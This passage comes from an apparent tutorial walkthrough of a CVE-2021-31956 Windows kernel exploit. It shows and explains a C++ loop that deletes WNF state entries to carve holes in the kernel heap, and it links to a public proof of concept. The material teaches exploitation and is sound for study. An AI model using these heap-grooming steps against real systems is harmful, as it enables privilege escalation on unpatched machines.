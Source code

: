 With the variable definitions out of the way, let's review the main body of `fragment_heap`, which is a `for` loop used to iteratively delete WNF structures in the heap:

```cpp
for (int i = 0; i < count; i += 3) {
    // create holes
    status = _NtDeleteWnfStateData(&(statenames[i]), NULL);
    if (!NT_SUCCESS(status)) {
        log_warn("fragment_heap::_NtDeleteWnfStateData()1");
        goto out;
    }

    status = _NtDeleteWnfStateName(&(statenames[i]));
    if (!NT_SUCCESS(status)) {
        log_warn("fragment_heap::_NtDeleteWnfStateData()1");
        goto out;
    }

    statenames[i].Data[0] = 0;
    statenames[i].Data[1] = 0;
    
    counter++;
}
```

The `for` loop iterates by a step of 3 to a maximum value specified through the input parameter `count`. For each iteration, the address of the `statenames` entry at index `i` is provided to both `NtDeleteWnfStateData` and `NtDeleteWnfStateName`. If both calls are successful, the `Data` member at the `i`th index is set to `0` at both the `0` and `1` subindex. The `counter` value is then incremented.

```cpp
printf("[+] Created 0x%llx holes of 0xc0 size in the heap\n", counter * 2);

out:
    return status;
```

Once the loop completes or is terminated, the `status` is then returned to the callee. 

PLACEHOLDER

# References

[Return to Top](#table-of-contents)

* [Rapid7's Blog](https://www.rapid7.com/blog/post/2019/06/12/heap-overflow-exploitation-on-windows-10-explained/)
* [Alex Ionescu's Blog](https://web.archive.org/web/20191229080007/https://gracefulbits.com/2018/08/13/find-which-process-is-using-the-microphone-from-a-kernel-mode-driver/)
* [Gabrielle Viala's Blog](https://blog.quarkslab.com/playing-with-the-windows-notification-facility-wnf.html)
* [Alex Plaskett's Blog](https://research.nccgroup.com/2021/07/15/cve-2021-31956-exploiting-the-windows-kernel-ntfs-with-wnf-part-1/)
* [Jan Vojtesek's Blog](https://decoded.avast.io/janvojtesek/exploit-kits-vs-google-chrome/)
* [Y3A's Blog](https://y3a.github.io/2022/09/03/cve-2021-31956/)
* [Y3A's Proof-of-Concept](https://github.com/Y3A/CVE-2021-31956)